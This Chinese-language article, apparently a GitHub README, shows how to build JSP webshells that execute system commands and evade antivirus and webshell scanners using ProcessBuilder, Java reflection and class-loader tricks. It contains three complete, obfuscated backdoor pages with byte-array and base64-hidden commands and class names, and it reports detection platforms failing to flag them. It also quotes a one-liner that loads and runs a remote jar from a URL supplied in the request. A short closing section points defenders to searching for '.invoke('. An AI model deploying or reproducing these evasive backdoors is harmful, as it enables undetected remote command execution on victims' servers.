### 0x00：前言

  JSP后门，一般是指文件名以.jsp等后缀结尾的，可运行于Java servlet及相关容器和组件内的通用JSP脚本。

  本文主要讨论利用Java反射机制和Java类加载机制构造JSP系统命令执行后门，并绕过一般软件检测的方法。

### 0x01：Java执行系统命令的方法和原理

  要构建JSP命令执行后门，首先需要了解Java语言执行系统命令的方法及其原理。通过查阅资料知道：目前Java语言执行系统命令主要通过下面两个类的相关方法实现：

```
java.lang.Runtime
java.lang.ProcessBuilder
```

- #### JVM层面

查阅 [**Java 文档**](http://tool.oschina.net/apidocs/apidoc?api=jdk-zh) 可以发现，上面两个类，都是对java.lang.Process抽象类的实现



Java语言中执行系统命令的方式，简单来说就是**由JVM创建一个本机进程，加载对应的指令到进程的地址空间中，然后执行该指令**。

而**java.lang.Runtime.getRuntime().exec()**和 **java.lang.ProcessBuilder.start()**方法，其实就是创建一个进程的方法。

- #### 代码层面

  首先，进入java.lang.Runtime类中，发现Runtime类的构造器是private修饰的，所以无法直接获得Runtime类的实例，只能通过其getRuntime()方法来间接获取一个Runtime类的实例。



  跟随java.lang.Runtime.getRuntime()，进入exec()方法；然后不断跟踪代码，定位到如下方法中。可以看到，Runtime类实现的系统命令执行方法exec()，底层代码其实是调用了ProcessBuilder类。



  然后我们定位到ProcessBuilder类代码中，我们知道ProcessBuilder类用start方法创建进程，所以找到start方法的相关代码。可以发现其底层代码是调用了java.lang.ProcessImpl类的start方法，最终实现创建本机进程，执行系统命令的功能。



  继续跟踪，发现ProcessImpl类的原型是一个继承自Process类的final类

`final class ProcessImpl extends Process{}`

  查看ProcessImpl的构造器，发现是private修饰的，所以无法直接在java.lang包外，直接调用ProcessImpl类。

```
    private ProcessImpl(String cmd[],
                        final String envblock,
                        final String path,
                        final long[] stdHandles,
                        final boolean redirectErrorStream)
        throws IOException
    {}
```

继续追踪ProcessImpl类的start方法，发现最后是返回了一个ProcessImpl 类的实例。



总结一下，Java语言执行系统命令相关类和方法的调用关系表示如下图：



### 0x02：JSP标签

 在JSP页面中嵌入java代码，需要正确的使用JSP标签，这里顺带提一下。

```jsp
<%@ %>    页面指令，设定页面属性和特征信息
<% %>     java代码片段，不能在此声明方法
<%! %>    java代码声明，声明全局变量或当前页面的方法
<%= %>    Java表达式
```

### 0x03：用ProcessBuilder绕过检测

先看一个简单原始的执行系统命令的后门：

`<%Runtime.getRuntime().exec(request.getParameter("i"));%>`

接收请求参数**i**传递的命令字符串，然后使用Runtime对象的exec()方法执行该命令。特点是命令无回显，会被杀。

"Runtime"、"exec"字符串过于显眼，基本都会被查杀软件检测到。所以，可以使用ProcessBuilder类建立一个不那么轻易被杀的命令执行后门，命名为[ProcessBuilder-cmd.jsp](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/jsp/ProcessBuilder-cmd.jsp)：

```jsp
<%@ page pageEncoding="utf-8"%>
<%@ page import="java.util.Scanner" %>
<HTML>
<title>Just For Fun</title>
<BODY>
<H3>Build By LandGrey</H3>
<FORM METHOD="POST" NAME="form" ACTION="#">
    <INPUT TYPE="text" NAME="q">
    <INPUT TYPE="submit" VALUE="Fly">
</FORM>

<%
    String op="Got Nothing";
    String query = request.getParameter("q");
    String fileSeparator = String.valueOf(java.io.File.separatorChar);
    Boolean isWin;
    if(fileSeparator.equals("\\")){
        isWin = true;
    }else{
        isWin = false;
    }

    if (query != null) {
        ProcessBuilder pb;
        if(isWin) {
            pb = new ProcessBuilder(new String(new byte[]{99, 109, 100}), new String(new byte[]{47, 67}), query);
        }else{
            pb = new ProcessBuilder(new String(new byte[]{47, 98, 105, 110, 47, 98, 97, 115, 104}), new String(new byte[]{45, 99}), query);
        }
        Process process = pb.start();
        Scanner sc = new Scanner(process.getInputStream()).useDelimiter("\\A");
        op = sc.hasNext() ? sc.next() : op;
        sc.close();
    }
%>

<PRE>
    <%= op %>>
</PRE>
</BODY>
</HTML>
```

执行命令：


上述代码做的几点绕过检测的考虑：

```
1. 避免出现敏感变量名
   如"cmd"、"spy"、"exec"、"shell"、"execute"、"system"、"command"等等
2. 字符串拆解重组
   将"cmd"、"/c"和"/bin/bash"、"-c"等都做了处理，由字节转为字符串
3. 使用Scanner接收回显
   接收命令回显数据时，避免使用BufferedReader等常见手段
4. 用fileSeparator来判断操作系统类型
   一般使用System.getProperty/getProperties获取操作系统的类型，这里使用路径分隔符简单判断，然后再选用"cmd /c"或者"/bin/bash -c"来执行命令
5. 不导入过多的包
```

虽然做的绕过考虑不多，还**带有ProcessBuilder关键字**，但还是没被以下软件和平台检测出来：

**virustotal检测**：



**shellpub.com检测：**



**D盾、安全狗、深信服Webshell扫描检测：**只有故意放置的一个简单exec后门被查出来



**OpenRASP团队 https://scanner.baidu.com 检测**结果(引擎版本: 2018-0509-1000)：没有发现异常



### 0x04：使用Java反射机制绕过检测

  Runtime类的exec方法在Webshell中用的多了，极易被后门查杀软件检测到，那么就不能用exec函数来执行系统命令了嘛？不然，还可以使用Java反射技术既绕过软件对"Runtime"、"exec"等关键词的检查又使用exec函数来执行系统命令。

在运行时，对于一个类，能够获取这个类的所有属性和方法，对于一个对象，都能够调用它的任意一个方法和属性，这种动态获取信息和动态调用对象方法的功能称为java语言的反射机制。Java反射机制的来龙去脉比较复杂，这里再给出一段简介用来参考：

> Java Reflection makes it possible to inspect classes, interfaces, fields and methods at runtime, without knowing the names of the classes, methods etc. at compile time. It is also possible to instantiate new objects, invoke methods and get/set field values using reflection.

#### 一. 反射Runtime

通过查阅[资料](http://tutorials.jenkov.com/java-reflection/index.html)，可写出利用反射机制调用Runtime类exec方法执行系统命令的一段示例代码：

```java
String op = "";
Class rt = Class.forName("java.lang.Runtime");
Method gr = rt.getMethod("getRuntime");
Method ex = rt.getMethod("exec", String.class);
Process e = (Process) ex.invoke(gr.invoke(null, new Object[]{}),  "cmd /c ping www.baidu.com");
Scanner sc = new Scanner(e.getInputStream()).useDelimiter("\\A");
op = sc.hasNext() ? sc.next() : op;
sc.close();
System.out.print(op);
```

具体代码含义不浪费篇幅解释了，讲下代码的主要逻辑：

1. 获取Runtime类的Class对象
2. 分别获取Runtime类Class对象的getRuntime方法和exec方法的Method对象
3. 利用getRuntime方法的Method对象，进行invoke调用，获得Runtime对象实例
4. 利用exec方法的Method对象，进行invoke调用，执行系统命令
5. 获取命令执行输出并打印

基于以上代码，然后就可以轻松创造出一个使用Java反射技术，既调用Runtime类exec函数执行系统命令， 又可以免杀的JSP后门了，命名为：[Runtime-reflect-cmd.jsp](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/jsp/Runtime-reflect-cmd.jsp)

```jsp
<%@ page import="java.util.Scanner" pageEncoding="UTF-8" %>
<HTML>
<title>Just For Fun</title>
<BODY>
<H3>Build By LandGrey</H3>

<FORM METHOD=POST ACTION='#'>
    <INPUT name='q' type=text>
    <INPUT type=submit value='Fly'>
</FORM>

<%!
    public static String getPicture(String str) throws Exception{
        String fileSeparator = String.valueOf(java.io.File.separatorChar);
        if(fileSeparator.equals("\\")){
            str = new String(new byte[] {99, 109, 100, 46, 101, 120, 101, 32, 47, 67, 32}) + str;
        }else{
            str =  new String(new byte[] {47, 98, 105, 110, 47, 98, 97, 115, 104, 32, 45, 99, 32}) + str;
        }
        Class rt = Class.forName(new String(new byte[] { 106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101 }));
        Process e = (Process) rt.getMethod(new String(new byte[] { 101, 120, 101, 99 }), String.class).invoke(rt.getMethod(new String(new byte[] { 103, 101, 116, 82, 117, 110, 116, 105, 109, 101 })).invoke(null, new Object[]{}),  new Object[] { str });
        Scanner sc = new Scanner(e.getInputStream()).useDelimiter("\\A");
        String result = "";
        result = sc.hasNext() ? sc.next() : result;
        sc.close();
        return result;
    }
%>

<%
    String name ="Input Nothing";
    String query = request.getParameter("q");
    if(query != null) {
        name = getPicture(query);
    }
%>

<pre>
<%= name %>
</pre>

</BODY>
</HTML>
```

在Runtime-reflect-cmd.jsp 脚本中：<%! %>标签里声明了用来执行系统命令的getPicture方法，<% %>标签里接受输入的命令，调用了getPicture方法，执行命令并返回结果<%= %>标签里输出系统命令执行结果到网页的\<pre>标签对中。

#### 二. 反射ProcessBuilder

查找资料，可以发现已有使用过Runtime反射后门的代码。那么既然可以反射Runtime，其实也可以构造出利用ProcessBuilder类start函数的jsp反射后门。

以下后门代码命名为[ProcessBuilder-reflect-cmd.jsp](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/jsp/ProcessBuilder-reflect-cmd.jsp)

```jsp
<%@ page pageEncoding="UTF-8" %>
<%@ page import="java.util.List" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.util.ArrayList" %>
<%@ page import="sun.misc.BASE64Encoder" %>
<%@ page import="sun.misc.BASE64Decoder" %>
<HTML>
<title>Just For Fun</title>
<BODY>
<H3>Build By LandGrey</H3>

<FORM METHOD=POST ACTION='#'>
    <INPUT name='q' type=text>
    <INPUT type=submit value='Fly'>
</FORM>

<%!
    public static String getPicture(String str) throws Exception {
        List<String> list = new ArrayList<String>();
        BASE64Decoder decoder = new BASE64Decoder();
        BASE64Encoder encoder = new BASE64Encoder();
        String fileSeparator = String.valueOf(java.io.File.separatorChar);
        if(fileSeparator.equals("\\")){
            list.add(new String(decoder.decodeBuffer("Y21k")));
            list.add(new String(decoder.decodeBuffer("L2M=")));
        }else{
            list.add(new String(decoder.decodeBuffer("L2Jpbi9iYXNo")));
            list.add(new String(decoder.decodeBuffer("LWM=")));
        }
        list.add(new String(decoder.decodeBuffer(str)));
        Class PB = Class.forName(new String(decoder.decodeBuffer("amF2YS5sYW5nLlByb2Nlc3NCdWlsZGVy")));
        Process s = (Process) PB.getMethod(new String(decoder.decodeBuffer("c3RhcnQ="))).invoke(PB.getDeclaredConstructors()[0].newInstance(list));
        Scanner sc = new Scanner(s.getInputStream()).useDelimiter("\\A");
        String result = "";
        result = sc.hasNext() ? sc.next() : result;
        sc.close();
        return encoder.encode(result.getBytes("UTF-8"));
    }

%>

<%
    String name ="Input Nothing";
    String query = request.getParameter("q");
    if(query != null) {
        name = getPicture(query);
    }
%>

<pre>
<%= name %>
</pre>

</BODY>
</HTML>
```

ProcessBuilder-reflect-cmd.jsp脚本中，考虑到通用性、隐蔽性和对抗网页流量内容检测，用sun.misc包中的base64编码函数来处理了相关变量和内容。命令需要base64编码一下再提交，最后输出的内容需要base64解码：



其中关键的两行反射代码：

```java
Class PB = Class.forName(new String(decoder.decodeBuffer("amF2YS5sYW5nLlByb2Nlc3NCdWlsZGVy")));
Process s = (Process) PB.getMethod(new String(decoder.decodeBuffer("c3RhcnQ="))).invoke(PB.getDeclaredConstructors()[0].newInstance(list));
```

为了易于理解可以写成下面的示例代码供参考：

```java
// 1. 获取ProcessBuilder的Class对象,PB
Class PB = Class.forName("java.lang.ProcessBuilder");
// 2. 从PB获取接受一个List类型变量作为参数的构造器对象,constructor
Constructor constructor = PB.getConstructor(new Class[]{List.class});
或
// 获得PB的第一个(也只有一个)构造器对象
Constructor constructor = PB.getDeclaredConstructors()[0];
// 3. 从PB获取一个名叫"start"的方法对象,m
Method m = PB.getMethod("start");
// 4. 提供给constructor需要的List类型变量值list(其中包含我们需要执行的命令)，获得一个实例对象obj
Object obj = constructor.newInstance(list);
//5. 传入obj对象，调用m("start"方法)，执行系统命令
Process process = (Process) m.invoke(obj);
```

#### 三. 关于反射ProcessImpl

在"**0x01：Java执行系统命令的方法和原理**"部分讲了，ProcessImpl类不是public修饰的，不能从java.lang包外的地方直接访问。所以想要接触到ProcessImpl.start方法就要用到反射机制(需要setAccessible true)，反射最原始的ProcessImpl类的start方法，来执行系统命令。

用代码

```java
import java.lang.reflect.*;

Class Pi = Class.forName("java.lang.ProcessImpl");
Method[] methods = Pi.getDeclaredMethods();
for(Method m:methods){
    m.setAccessible(true);
    System.out.println(m.toString());
}
```

可以获得ProcessImpl.start方法的参数原型(JDK8)：

`static java.lang.Process java.lang.ProcessImpl.start(java.lang.String[],java.util.Map,java.lang.String,java.lang.ProcessBuilder$Redirect[],boolean) throws java.io.IOException`

或者跟踪到ProcessImpl类中，也可以直接观察需要的5个参数值类型：



经[@0c0c0f](https://github.com/0c0c0f) 提醒， 其实反射java.lang.ProcessImpl类来执行代码，看起来要传入5个参数，实现起来其实也不复杂，完整代码示例如下：

```java
import java.util.Map;
import java.lang.Process;
import java.util.Scanner;
import java.lang.reflect.Method;
import java.lang.ProcessBuilder.Redirect;


public class invoke_ProcessImpl {
    public static void main(String[] args) throws Exception{
        String op = "";

        String dir = ".";
        String[] cmdarray = new String[]{"ping", "127.0.0.1"};
        Map<String, String> environment = null;
        Redirect[] redirects = null;
        boolean redirectErrorStream = true;

        Class clazz = Class.forName("java.lang.ProcessImpl");
        Method method = clazz.getDeclaredMethod("start", String[].class, Map.class, String.class, Redirect[].class, boolean.class);
        method.setAccessible(true);
        Process e = (Process) method.invoke(null, cmdarray, environment, dir, redirects, redirectErrorStream);
        Scanner sc = new Scanner(e.getInputStream()).useDelimiter("\\A");
        op = sc.hasNext() ? sc.next() : op;
        sc.close();
        System.out.print(op);
    }
}
```

上面代码中虽然成功通过反射 java.lang.ProcessImpl 类的start方法执行了系统命令，但引入了"ProcessBuilder" 关键字，所以只作为一种技术可行性来看待。在jdk6及以下版本，ProcessImpl start函数只需四个参数，可以避免引入"ProcessBuilder"关键字，通过反射执行系统命令。



总之，想要通过Java反射机制来执行系统命令的话，一般就是通过**反射Runtime类和ProcessBuilder类**，调用相关系统命令执行方法来完成。

其实到这里，利用Java的反射机制来绕过查杀软件检测已经讲的差不多了。但是查资料过程中，发现下面这段比较老的利用Java反射技术的后门代码：

```jsp
<%=Class.forName("Load",true,new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL(request.getParameter("u"))})).getMethods()[0].invoke(null, new Object[]{request.getParameterMap()})%>
```

利用起来像这样

`http://target.com/reflect.jsp?u=http://somesite.com/some.jar&password=A `

仔细看会发现：代码中的Class.forName()方法用了三个参数，而我们上面部分讲的代码中Class.forName()方法只用了一个参数。查阅API文档，发现Class.forName()方法是有两种形式，然后就注意到了Java类加载器ClassLoader和类加载机制。



### 0x05：使用Java类加载机制绕过检测

Java类加载机制简单来说就是JVM查找到类的所在位置，并将找到的Java类的字节码装入内存，生成对应的Class对象。其中有几个重要的概念如下：

#### Class对象

> 一个.java源码文件经过编译生成.class字节码文件，可以认为是Java编译器创建了一个可以被JVM识别并加载的Class对象。这个Class对象就可以看成是.class文件或者说Class对象被保存在了.class文件中。

#### Java自带的三个类加载器

- Bootstrap Classloder 
- Extention ClassLoader
- App ClassLoader

上一级称为下一级的父加载器，加载的先后顺序依次是：

`Bootstrap Classloder => Extention ClassLoader => App ClassLoader `

对应的System.getProperty路径查找顺序：

`sun.boot.class.path => java.ext.dirs => java.class.path`

借用别人的一张图(**双亲委托**)简单说明类加载的过程：

> 一个类加载器查找class和resource时，首先判断这个class是不是已经加载成功；如果没有的话它并不是自己进行查找，而是先委托给父加载器，然后递归委托，直到Bootstrap ClassLoader加载器；如果Bootstrap classloader找到了，直接返回class和resource；如果没有找到，则一级一级返回，最后才是自己去查找。




原理看起来比较复杂，实现起来其实比较简单，即将获得Class对象的方式由

`Class rt= Class.forName("java.lang.Runtime");` 改成

 `Class rt = ClassLoader.getSystemClassLoader().loadClass("java.lang.Runtime");`的形式即可，反射ProcessBuilder同理。

其它一些特性如要深入了解请去查看具体代码实现，其它内容不再展开。

### 0x06：获得Class对象的四种方法

在以上文章中，其实我们大部分篇幅都是围绕着Java语言中获得Class对象的四种方法，构造绕过检测软件的执行系统命令的后门的。Java语言中获得Class对象的主要有以下四种方法：

##### 原生类.class

即通过类、枚举、接口、注解或数组类型的原生类型名称.class，来获得Class对象。

```java
Class c = java.lang.Runtime.class;
```

##### 对象.getClass()

```java
java.lang.Runtime obj = java.lang.Runtime.getRuntime();
Class c = obj.getClass();
```

##### 使用 Class.forName()

```java
Class c= Class.forName("java.lang.Runtime");
或
Class c = Class.forName("java.lang.Runtime",false,ClassLoader.getSystemClassLoader());
```

##### 使用 ClassLoader

```java
Class c = ClassLoader.getSystemClassLoader().loadClass("java.lang.Runtime");
```

第一种和第二种方式显然无法规避Runtime等关键字获得Class对象；第三种使用Java反射机制和第四种使用Java类加载机制，都可以从全限定的类名字符串中获得Class对象，编码或变换下字符串的表现形式就可以规避Runtime等关键字，从而达到绕过软件检测的效果。

### 0x07：后记

Java语言不像PHP等语言那么灵活，本文探讨的绕过检测的方法，尽量使用较少的代码量和文件，达到了**规避Runtime、ProcessBuilder等关键字**执行系统命令的效果，但其实在规避命令执行关键字的同时**引入了Java反射和类加载机制相关的关键词**。

但是针对检测结果来说，用文中给的ProcessBuilder后门、0x04和0x05中给的新型后门，市面上一些仅利用脚本内容检测Webshell的软件和平台，都是检测不到异常的，其实这也从侧面印证了他们**仅是通过关键词的匹配和已有恶意脚本库的比对**等一些较为简单的方式来进行JSP相关的Webshell检测的。

对于专业的查杀软件和平台，仅仅通过文章中关键字来做后门的检测和判断的标准，一棒子打死，是不能兼顾准确率和查杀效果的。但对于个人来说，只需要全局搜索代码中的"**.invoke(**"关键词，人工简单看下代码，就能判断是不是Java反射后门和Java类加载机制后门了。

### 参考链接：

http://tutorials.jenkov.com/java-reflection/index.html

https://docs.oracle.com/javase/7/docs/api/index.html?java/lang/reflect/package-summary.html

https://blog.csdn.net/briblue/article/details/54973413

https://github.com/JustinSDK/JavaSE6Tutorial/blob/master/docs/CH16.md

https://stackoverflow.com/questions/8100376/class-forname-vs-classloader-loadclass-which-to-use-for-dynamic-loading

http://p2j.cn/?p=1627

https://segmentfault.com/a/1190000004706888

https://blog.csdn.net/zhangjg_blog/article/details/20380971

https://segmentfault.com/a/1190000010162647?utm_source=tuicool&utm_medium=referral

https://stackoverflow.com/questions/6911427/is-it-possible-to-invoke-private-attributes-or-methods-via-reflection